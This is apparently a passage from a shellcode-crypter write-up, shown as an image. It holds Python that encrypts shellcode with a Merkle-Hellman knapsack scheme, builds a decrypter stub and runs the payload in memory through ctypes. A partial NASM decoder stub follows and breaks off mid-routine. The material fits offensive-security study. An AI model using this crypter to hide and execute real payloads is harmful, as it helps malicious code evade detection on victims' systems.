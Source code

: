 ```python
    q, r = "{:04x}".format(pk[1]), "{:04x}".format(modinv(pk[2],pk[1]))
    pk_s += "\\x"+q[2:]+"\\x"+q[:2]+"\\x"+r[2:]+"\\x"+r[:2]
    return pk_s

# Generate the keys pair
keys = mhk_keygen()

# Encrypt the original shellcode 
crypted = mhk_crypt(keys[1], shellcode)
print("Encrypted shellcode ({} bytes):".format(len(crypted)*2))
crypted = mhk_cryptostr(crypted)
print(crypted, end="\n\n")

private_key = mhk_keytostr(keys[0])
print("Private key (12 bytes):")
print(private_key , end="\n\n")

# Initialize the stub :
decrypter = decrypter.format(size=original_size , pki=private_key, encrypted=crypted)

# Convert the decrypter stub and encrypted shellcode into a bytes object
payload_b = bytes.fromhex(decrypter.replace('\\x', ''))

print("Encrypted shellcode + Decrypter stub ({} bytes):".format(len(payload_b)))
print(decrypter, end="\n\n")


# Execute the payload
c_shell_p = c_char_p(payload_b)

launch = cast(c_shell_p, CFUNCTYPE(c_char_p))

print("Running shellcode....")
launch()
```

And here is the decoder stub source code (here with a crypted execve shellcode):

```nasm
global _start
section .text

_start:
    jmp crypted             ; jmp/call/pop to get private key + encrypted shellcode address

get_nb:
    mov ax, [ebx+0xa]       ; pointer to modular inverse r
    mul word [esi]          ; r * encrypted byte value
    div word [ebx+0x8]      ; divide by q
    mov ax, dx              ; AX set to modulo q value (remainder)
    ret         

decrypt:                    ; Initialisation of some registers
    pop ebx                 ; pointer to the private key (w, q, modinv_r)
    lea edi, [ebx+12]       ; pointers to the encoded shellcode
    mov esi, edi            ;  - ESI used to read encrypted payload
                            ;  - EDI used to write decrypted payload
    xor ecx, ecx            
    mul ecx                 ; EAX,EDX,ECX set to 0
    mov cl, 0x15            ; 21 bytes (original shellcode length!!)

next_char:
    call get_nb             ; Set EAX to the next encrypted byte value
    push cx                 ; save bytes counter 
```